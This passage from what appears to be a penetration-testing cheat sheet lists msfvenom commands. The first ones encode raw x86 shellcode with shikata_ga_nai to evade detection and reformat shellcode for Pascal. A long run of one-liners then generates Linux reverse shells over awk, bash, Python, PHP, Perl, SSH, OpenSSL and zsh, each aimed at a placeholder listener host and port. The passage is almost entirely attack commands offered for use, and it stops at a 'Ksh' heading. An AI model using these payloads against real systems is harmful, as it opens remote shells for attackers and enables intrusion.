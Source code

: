- **Pipe it through msfvenom**

`$ cat payload-x86.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f c -i 9`

- **Generate formatted Pascal shellcode**

`$ msfvenom -p <payload> -f c | sed -r 's/[\x]+/$/g' | sed -r 's/[\]+/,/g' | sed -r 's/["]+//g' | sed -e 's/$/\,/' | cut -c 2-`

### 2.4 - Scripting Payloads

#### 2.4.1 - Reverse Shells

##### 2.4.1.1 - Linux

- **Awk**

`$ msfvenom -p cmd/unix/reverse_awk lhost=<IP> lport=<PORT>`

- **Bash**

`$ msfvenom -p cmd/unix/reverse_bash lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/reverse_bash_telnet_ssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/reverse_bash_udp lhost=<IP> lport=<PORT>`

- **Python**

`$ msfvenom -p cmd/unix/reverse_python lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/reverse_python_ssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

- **PHP**

`$ msfvenom -p cmd/unix/reverse_php_ssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

- **Perl**

`$ msfvenom -p cmd/unix/reverse_perl lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/reverse_perl_ssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

- **SSH**

`$ msfvenom -p cmd/unix/reverse_ssh lhost=<IP> lport=<PORT>`

- **OpenSSL**

`$ msfvenom -p cmd/unix/reverse_openssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

- **Zsh**

`$ msfvenom -p cmd/unix/reverse_zsh lhost=<IP> lport=<PORT>`

- **Ksh**
